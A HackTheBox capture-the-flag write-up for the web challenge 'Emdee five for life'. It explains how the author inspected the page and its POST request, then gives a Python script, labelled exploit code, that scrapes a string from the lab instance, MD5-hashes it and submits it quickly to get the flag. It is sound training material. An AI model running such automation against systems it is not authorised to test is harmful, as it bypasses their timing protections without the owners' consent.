

# HackTheBox [LAB-challenge] (Web)
## CHALLENGE NAME : Emdee five for life 

## Writeup by **`Arijit-Bhowmick`** aka **`sys41414141`**


### Challenge Description

`
Can you encrypt fast enough?
`

## SOLUTION

Click on the `Start Instance` button to start the challenge.

The you are provided with an `website's address` copy it and open it in another tab or browser.
In my case it was `http://188.166.168.204:32270`

### Homepage of the Webapp :


The webapp ask us to hash a given string, with MD5 and submit it in the provided textbox.
If we are going to manually convert the string in `MD5 hash` and submit it, then it will
give a response string as `Too slow!`.

So, to solve this challenge I thought of making an `automation script` with python.

But for that I have to analyze the source-code of the webpage and modify it to extract the required information.

### Source-Code of the Webpage


After analyzing the source code of the webpage, I thought of using `requests` module in python to get the source-code from the webpage. Then, with some modifications in the source-code, I am going to get the required string.

### POST Request :


For analyzing the POST request that the webapp is sending toe the server, I have used `Burpsuite`.
I have analyzed the post request and found that there is a variable named as `hash=` where the hash is to be mentioned and send to the server.

### Scripting

#### EXPLOIT Code:

```
# ARIJIT BHOWMICK [sys41414141]

import requests
import hashlib

site = "http://188.166.168.204:32270"

req = requests.session()

r = req.get(site)

identifying_string = "<h1 align=\'center\'>MD5 encrypt this string</h1><h3 align=\'center\'>"

page_source_ = r.text

def re_request_sender(plain_source):

	global page_source

	if (identifying_string in plain_source):
		for line in page_source:

			if (identifying_string in line):
				string_lst = line.replace(identifying_string, "").split("</h3>")

				string_to_encode = string_lst[0]
				response_string = string_lst[1].replace("<center><form action=\"\" method=\"post\">", "").replace("<p align=\'center\'>", "").replace("</p>","")

				print(f"STRING_TO_ENCODE = {string_to_encode}   |   RESPONSE_STRING = {response_string}")

				if response_string.startswith("HTB{"):

					exit()
				else:
				
					md5_hash = hashlib.md5(string_to_encode.encode()).hexdigest()

					break
			else:
				continue

		

		crafted_data = {"hash":md5_hash}


		r = req.post(site, data=crafted_data)

		return r.text


while True:

	page_source = page_source_.split('\n')
	page_source_ = re_request_sender(page_source_)
```

Here, the exploit code for this challenge, will get the source-code of the provided web_address at `site` variable, and POST the MD5 hash of the provided string.
Change `http://188.166.168.204:32270`, with what the `web_address` you are provided with.

The exploit script will output :
`STRING_TO_ENCODE = <String to encode>   |   RESPONSE_STRING = <Response string from server>`

For example, If the webapp provides a string `AORErZSAyqSNn3uNeZyK` to hash with MD5.
Then, the assumed output will be:

`STRING_TO_ENCODE = AORErZSAyqSNn3uNeZyK   |   RESPONSE_STRING = Too slow!`

*** The Value of `RESPONSE_STRING` vary about what the server provide us ***

If the `RESPONSE_STRING` starts with `HTB{` then the script will exit, and we are going to have the **Flag**.


